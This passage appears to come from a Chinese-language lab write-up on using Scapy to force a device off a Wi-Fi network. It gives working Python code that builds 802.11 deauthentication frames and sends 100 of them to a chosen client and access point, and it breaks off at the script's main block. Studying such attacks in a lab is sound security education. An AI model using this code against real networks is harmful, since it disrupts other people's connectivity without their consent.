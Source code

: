 ![](./img/exp2-1代码运行效果.png)



### 实验三：使⽤ Scapy 断开设备与 Wi-Fi 的连接
#### 场景⼀：攻击者未接⼊⽆线⽹络

首先使⽤ `Scapy` 定义取消认证数据帧然后构建取消认证数据帧发送函数；在设置了相关参数后进⾏攻击
下面的函数使⽤ `Scapy` 库中的 RadioTap 和 Dot11Deauth 类⽣成取消⾝份验证数据
帧,然后使⽤ sendp 函数发送数据包
```python
def disconnect_user(mac_address, access_point, interface): 
    packet = RadioTap() / Dot11(addr1=mac_address, 
                    addr2=access_point, 
                    addr3=access_point)/ Dot11Deauth(reason=7) 
    sendp(packet, inter=0.01, count=100, 
        iface=interface, verbose=1) 
```
最后的攻击代码：

```python
from scapy.all import RadioTap, Dot11, Dot11Deauth, sendp

def disconnect_user(mac_address, access_point, interface):
    """
        mac_address：目标设备的 MAC 地址
        access_point：AP 的 MAC 地址
        interface：无线网卡接口名称
    过程：
        1. 利用 RadioTap 构造帧头
        2. 使用 Dot11 设置 802.11 帧中的地址字段：
            - addr1：接收方 MAC 地址（目标设备）
            - addr2：发送方 MAC 地址（AP）
            - addr3：BSSID，通常与 AP MAC 地址一致
        3. 添加 Dot11Deauth 数据包，设置取消认证原因
        4. 使用 sendp 函数发送数据包，inter 指定发送间隔，count 为发送次数
    """
    packet = RadioTap() / Dot11(addr1=mac_address, addr2=access_point, addr3=access_point) / Dot11Deauth(reason=7)
    sendp(packet, inter=0.01, count=100, iface=interface, verbose=1)

if __name__ == "__main__":
```